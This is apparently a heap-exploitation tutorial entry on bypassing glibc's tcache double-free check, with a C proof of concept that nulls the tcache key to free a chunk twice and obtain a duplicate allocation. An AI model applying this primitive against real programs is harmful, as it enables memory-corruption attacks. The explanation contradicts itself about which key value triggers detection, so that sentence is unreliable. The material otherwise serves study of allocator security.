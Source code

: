 ## tcache key double

**Purpose**: Bypass double free check in tcache by changing the tcache key.

**Details**: We all know that tcache has a double free check mechanism to prevent double free vulnerabilities. This mechanism uses a "tcache key" to check if a chunk is being freed again. The key is stored in the second qword of the chunk (i.e., `chunk[1]`). When a chunk is freed, its key is set to a random value. If the same chunk is freed again, the allocator checks if the key matches the expected value. If it does, the double free is detected and an error is raised. However, if an we can modify the key to a value that matches the expected value, they can bypass the double free check and successfully free the chunk again.

## PoC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    long *chunk1, *chunk2, *duplicate;

    chunk1 = malloc(0x10);
    free(chunk1); // free normally to tcache

    /* VULN HERE */
    chunk1[1] = 0x0;   // nullify the key to bypass double free check
    free(chunk1);      // double free to tcache
    /* VULN HERE */

    chunk2 = malloc(0x10); // take the first chunk from tcache
    duplicate = malloc(0x10); // take the second chunk from tcache, which is the duplicate

    assert(chunk1 == duplicate); // both pointers should be the same

    return 0;
}
```
